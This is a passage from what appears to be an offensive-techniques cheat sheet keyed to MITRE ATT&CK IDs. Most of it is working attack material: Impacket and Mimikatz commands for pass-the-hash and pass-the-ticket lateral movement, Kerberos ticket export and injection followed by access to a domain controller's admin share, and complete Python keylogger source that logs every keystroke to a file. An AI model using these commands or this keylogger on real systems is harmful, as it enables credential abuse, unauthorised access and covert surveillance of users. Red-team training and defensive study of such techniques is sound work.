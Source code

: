 ### 3.3 Pass-the-Hash (T1550.002)

Use captured NTLM hashes without cracking.

```bash
# Impacket psexec with hash
impacket-psexec -hashes :hash administrator@192.168.1.100

# Impacket wmiexec
impacket-wmiexec -hashes :hash administrator@192.168.1.100

# Impacket smbexec
impacket-smbexec -hashes :hash administrator@192.168.1.100
```

**Mimikatz Pass-the-Hash**:
```powershell
# PTH with mimikatz
mimikatz.exe "sekurlsa::pth /user:Administrator /domain:corporate.local /ntlm:hash /run:powershell.exe" "exit"

# Now use the new PowerShell session
```

### 3.4 Pass-the-Ticket (T1550.003)

```powershell
# Export Kerberos tickets
mimikatz.exe "sekurlsa::tickets /export" "exit"

# Inject ticket into current session
mimikatz.exe "kerberos::ptt ticket.kirbi" "exit"

# Use injected ticket
dir \\dc01\C$
```

---

## 4. User Interaction-Based

### 4.1 Keylogging (T1056.001)

```python
from pynput import keyboard

def on_press(key):
    """Log keystrokes"""
    try:
        with open("keylog.txt", "a") as f:
            f.write(str(key.char))
    except AttributeError:
        with open("keylog.txt", "a") as f:
            f.write(f" [{key}] ")

def start_keylogger():
    """Start keylogger"""
    with keyboard.Listener(on_press=on_press) as listener:
        listener.join()

# Run keylogger
start_keylogger()
```
